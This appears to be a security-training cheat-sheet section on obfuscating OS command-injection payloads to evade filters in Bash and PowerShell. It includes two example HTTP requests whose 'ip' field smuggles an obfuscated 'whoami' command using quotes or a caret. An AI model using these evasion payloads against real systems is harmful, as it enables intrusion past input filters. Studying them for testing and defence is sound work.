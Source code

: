 ## Linux & Windows
One very common obfuscation techniques is inserting certain characters within our command that are usually ignored by Bash or Powershell and will execute the same command as if they were not there. Some of these characters are single-quote and a double-quote, in addition to a few others. Example below:
```http
POST / HTTP/1.1
Host: target-website.com
...

ip=127.0.0.1%09w'h'o'am'i
```
> Tip: The important things to remember are that we cannot mix types of quotes and the number of quotes must be even.
## Linux Only
We can also insert a few Linux-only characters in the middle of commands, and the bash shell would ignore it and execute the command. These characters include the backslash and the positional parameter character (`$@`).
## Windows Only
There are also some Windows-only characters we can insert in the middle of commands that do not affect the outcome, like a caret (`^`) character. Example:
```http
POST / HTTP/1.1
Host: target-website.com
...

ip=127.0.0.1%09who^ami
```
